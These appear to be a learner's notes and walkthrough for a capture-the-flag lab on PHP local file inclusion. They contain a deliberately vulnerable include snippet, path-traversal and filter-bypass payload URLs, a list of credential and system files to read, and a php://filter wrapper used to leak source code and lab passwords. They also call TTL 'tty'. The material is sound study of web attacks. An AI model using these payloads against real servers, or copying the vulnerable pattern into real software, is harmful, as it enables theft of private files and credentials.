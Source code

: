 # Patch Management is Hard

## General Notes from Video
- The tty section in the ping output means "time to live", and represents the number of hops it is allowed to have before expiring. The tty varies between different OS, so it's a useful identifier of what OS you're dealing with

## Local File Inclusion Vulnerability
- Local file inclusion (LFI) vulerability is a web application vulnerability that allows the attacker to include and read local files on the server, which can contain keys, passwords, and other private data
- Occurs dure to a developer's lack of security awareness
    - Ex. If a developer includes files without proper input validation and doesn't filter/sanitize user input
- Found in various we applications
    - Ex. In php, these functions can cause the vulnerability
        - include
        - require
        - include_once
        - require_once
## Risk of LFI
- If a LFI is found, it's possible to read sensititive data and write to files
- One of the most significant risks is leaking sensitive data
- In some cases LFI can be chained to perform RCE on the server
## Identifying and Testing for LFI
- Attackers are interesed in HTTP parameters to manupulate input and inject attack payloads to see how the web application behaves
- Entry points - where to start looking for vulerabilities
    - It's important to use the web app and see how it works to find an entry point
    - Other entry points can be User-Agent, Cookies, session, and other HTTP headers
- HTTP query parameters are query strings attached to the URL that could be used to retrieve data or perform actions based on user input
- This code uses a GET request with the URL parameter 'file' to include a file on the page. This request can be mnade using `http://example.thm.labs/index.php?file=welcome.txt`, and is vulerable to LFI because it allows any user to access files in the directory
><?PHP 
>	include($_GET["file"]);
>?>
- Some Linux system files that contain sensitive information that we can test for:
>/etc/issue
>/etc/passwd
>/etc/shadow
>/etc/group
>/etc/hosts
>/etc/motd
>/etc/mysql/my.cnf
>/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
>/proc/self/environ
>/proc/version
>/proc/cmdline
- A few techniques to use when testing:
    - A direct file inclusion, which starts with /etc/passwd
    - using `..` to get out the current directory, the number of `..` is varies depending on the web app directory. 
    - Bypassing filters using `....//`.
    - URL encoding techniques (such as double encoding)
- Ex.
<div>
   http://example.thm.labs/page.php?file=/etc/passwd
   http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
   http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 
   http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
   http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
<div>
- When we navigate to the web page for this exercise, we see that the landing page url is `https://machine_ip/index.php?err=error.txt`. This shows us that php is using the parameter `err` to display `error.txt`. Assuming the err parameter uses the include function, we do `https://machine_ip/index.php?err=../../../etc/passwd` and get the passwd file's contents printed on the page
>root:x:0:0:root:/root:/bin/bash
>daemon:x:1:1:daemon:/usr/sbin:/bin/sh
>bin:x:2:2:bin:/bin:/bin/sh
>sys:x:3:3:sys:/dev:/bin/sh
>sync:x:4:65534:sync:/bin:/bin/sync
>games:x:5:60:games:/usr/games:/bin/sh
>man:x:6:12:man:/var/cache/man:/bin/sh
>lp:x:7:7:lp:/var/spool/lpd:/bin/sh
>mail:x:8:8:mail:/var/mail:/bin/sh
>news:x:9:9:news:/var/spool/news:/bin/sh
>uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
>proxy:x:13:13:proxy:/bin:/bin/sh
>www-data:x:33:33:www-data:/var/www:/bin/sh
>backup:x:34:34:backup:/var/backups:/bin/sh
>list:x:38:38:Mailing List Manager:/var/list:/bin/sh
>irc:x:39:39:ircd:/var/run/ircd:/bin/sh
>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
>nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
>libuuid:x:100:101::/var/lib/libuuid:/bin/sh
>mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false
## Exploiting LFI
- Depends on the web application server configuration
- If we're dealing with a PHP we app, we can use a [PHP supported Wrapper](https://www.php.net/manual/en/wrappers.php.php)
- PHP provides various methods of transmission of data to allow PHP to read from, which can enable reading data via various data type channels
## PHP Filter
- The PHP filter wrapper is used in LFI to read the actual PHP content
- Typically, it's not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code, however we can use the PHP filter to display the content of PHP files inother encoding formats such as base64 or ROT13
## Exercise
- I used OSWAP ZAP for this, like it's used in the video
1. err
2. Use `https://machine_ip/index.php?err=../../../etc/flag` THM{d29e08941cf7fe41df55f1a7da6c4c06}
3. Use the [PHP filter wrapper](https://www.php.net/manual/en/wrappers.php.php) like so `http://machine_ip?err=php://filter/convert.base64-encode/resource=index.php` to get the base64. Then decode it with cyberchef to find THM{791d43d46018a0d89361dbf60d5d9eb8}
4. From the previous decoded code we see `include("./includes/creds.php");`. If we try the same PHP filter wrapper to view creds.php `http://machine_ip?err=php://filter/convert.base64-encode/resource=./includes/creds.php` and decode the base64, we get `<?php $USER = "McSkidy"; $PASS = "A0C315Aw3s0m";?`
5. Now go back to the website and log in with the credentials. Go to Password Recovery and we see
>Server Name: web.thm.aoc - Password: pass123
>Server Name: ftp.thm.aoc - Password: 123321
>Server Name: flag.thm.aoc - Password: THM{552f313b52e3c3dbf5257d8c6db7f6f1}
